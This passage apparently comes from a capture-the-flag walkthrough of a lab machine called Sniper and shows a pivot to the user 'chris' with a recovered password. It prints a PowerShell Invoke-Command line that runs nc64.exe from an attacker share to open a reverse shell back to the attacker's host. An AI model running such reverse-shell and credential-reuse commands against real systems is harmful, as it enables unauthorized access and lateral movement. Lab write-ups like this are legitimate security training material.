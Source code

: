 ![local-users](/assets/Sniper/local-users.jpg)

The password works for `chris`

![got-chris](/assets/Sniper/got-chris.jpg)

### Getting a shell as Chris
The situation is that we want to pivot to the `chris` user **without losing the shell** *if possible*

We can do so from our **PowerShell** prompt using the below method:

```powershell
$cred = New-Object System.Management.Automation.PSCredential ("Sniper\chris", (ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force))
Invoke-Command 127.0.0.1 -Credential $Cred -Scriptblock {\\10.10.16.3\s\nc64.exe -e powershell.exe 10.10.16.3 9001} -AsJob
```

we're basically **creating a** `credential` **object** for the `chris` user and **invoking a local script as him** but *as a job* to **fork into a new process** and **leave our shell in tact.**


![shell-as-chris](/assets/Sniper/shell-as-chris.jpg)

